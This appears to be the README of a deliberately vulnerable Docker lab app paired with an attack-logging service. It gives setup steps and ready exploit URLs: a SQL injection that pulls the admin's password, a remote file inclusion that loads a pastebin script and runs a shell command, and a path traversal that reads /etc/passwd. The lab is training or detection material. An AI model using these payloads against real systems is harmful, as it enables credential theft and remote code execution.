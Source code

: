 # Alpha and Beta app #

Before you run alpha and beta app, please install docker and docker-compose.

### How to run Alpha and Beta app? ###

* Clone this repository
* Run `sudo docker-compose build`
* Run `sudo docker-compose up`
* Run `sudo docker-compose exec beta bash`
* Inside bash shell of beta, run:

  ```
  /app# flask db upgrade
  /app# exit
  ```
### Endpoint Alpha ###
* Vulnerable SQL Injection

  [http://172.17.0.1:65412/?id=2](http://172.17.0.1:65412/?id=2)
  
  How to exploit : 

  [http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27)](http://172.17.0.1:65412/?id=2%20UNION%20ALL%20SELECT%20NULL%2C%20NULL%2C%20NULL%2C%20(SELECT%20id%7C%7C%27%2C%27%7C%7Cusername%7C%7C%27%2C%27%7C%7Cpassword%20FROM%20users%20WHERE%20username%3D%27admin%27))

* Vulnerable Remote File Inclusion

  [http://172.17.0.1:65412/?include=](http://172.17.0.1:65412/?include=)

  How to exploit :

  [http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig](http://172.17.0.1:65412/?include=http%3A%2F%2Fpastebin.com%2Fraw.php%3Fi%3D6VyyNNhc&cmd=ifconfig)

* Vulnerable Path Traversal

  [http://172.17.0.1:65412/?path=](http://172.17.0.1:65412/?path=)

  How to exploit :

  [http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd](http://172.17.0.1:65412/?path=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd)

  
### Endpoint Beta ###

  To get list of attacks activity:

  [http://172.17.0.1:10000/attacks](http://172.17.0.1:10000/attacks)
